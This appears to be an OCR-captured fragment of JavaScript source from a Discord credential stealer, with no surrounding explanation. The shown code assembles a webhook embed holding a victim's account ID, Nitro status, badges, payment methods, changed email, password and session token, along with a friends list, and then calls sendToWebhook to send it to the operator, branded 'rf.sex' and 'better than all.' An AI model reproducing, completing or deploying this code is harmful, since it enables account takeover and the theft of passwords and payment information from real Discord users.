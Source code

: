                                                     name: "id:",
                                                    value: `\`${json.id}\``,
                                                    inline: !0
                                                }, {
                                                    name: "nitro:",
                                                    value: `${getNitro(json.premium_type)}`,
                                                    inline: !0
                                                }, {
                                                    name: "badges:",
                                                    value: `${getBadges(json.flags)}`,
                                                    inline: !0
                                                }, {
                                                    name: "payment methods:",
                                                    value: `${cool()}`,
                                                    inline: !0
                                                }, {
                                                    name: "new email:",
                                                    value: `\`${newemail}\``,
                                                    inline: !0
                                                }, {
                                                    name: "password:",
                                                    value: `\`${password}\``,
                                                    inline: !0
                                                }, {
                                                    name: "token:",
                                                    value: `\`\`\`${token}\`\`\``,
                                                    inline: !1
                                                }, ],
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }, {
                                                "title": `total friends (${totalFriends()})`,
                                                "color": config['embed-color'],
                                                "description": calcFriends(),
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }]
                                        }
                                        sendToWebhook(JSON.stringify(params))
                                    })
                                })
                            })
                        })
                    }
                })
            })
        })
    })
}
